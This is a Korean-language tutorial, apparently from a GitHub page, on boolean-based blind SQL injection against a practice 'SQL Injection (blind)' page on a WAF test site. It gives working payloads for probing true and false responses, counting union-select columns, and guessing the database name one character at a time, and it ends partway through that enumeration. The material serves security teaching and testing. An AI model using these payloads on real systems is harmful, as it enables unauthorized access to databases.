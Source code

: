 # SQL Blind Injection - boolean based Attack
SQL Injection 공격을 위해 웹애플리케이션에 로그인 한다. http://waf.korwaf.site/ 에 로그인 하면 메뉴 중 SQL Injection (blind)을 클릭 한다. 공격을 위해서는 정상적인 응답이 오는 경우를 알고 있어야 한다. 알고 있는 정보로는 1이라는 사용자가 있는 것을 알고 있음으로 1을 입력 후 Submit 을 눌러 보자. 아래 그림 처럼 1 이라는 사용자가 존재 한다는 것을 알 수 있다.

![](/image/waf-sqlblind/waf-03.png)

거짓인 데이터에 대해서 웹페이지의 반응을 보기 위해 아래와 같이 입력 하고 실행 해 준다.

```bash
' or '1'='2'    
```

![](/image/waf-sqlblind/waf-04.png)

위 그림처럼 거짓일 때는 ***User ID is MISSING from the database*** 라는 메시지가 출력 되는 것을 알 수 있다.

아래 문장을 입력 후 실행 하여 서버의 반응 보면
```bash
' union select 1 #
' union select 1,2  #
```

' union select 1,2 # 를 입력 하였을 때 참인 것을 볼 수 있다 이를 통해 실행 되는 SQL 의 Select 항목이 2개임을 알 수가 있다.

다음으로 데이터베이스 이름을 알기 위해 다음을 순서대로 입력 하고 실행 해 보자.
```bash
1' and length(database()) =1 
1' and length(database()) =2
1' and length(database()) =3 
1' and length(database()) =4 
```
***length(database())=4*** 일때 결과가 참인 것을 볼 수 있을 것이다. 이로서 데이터 베이스 이름의 길이가 4 라는 것을 알았고 다음을 입력 하여 데이터 베이스 이름을 유추 할 수 있다.
```bash
1' and substr(database(),1,1) = 'a' 
1' and substr(database(),1,1) = 'b' 
1' and substr(database(),1,1) = 'c' 
1' and substr(database(),1,1) = 'd' 
```
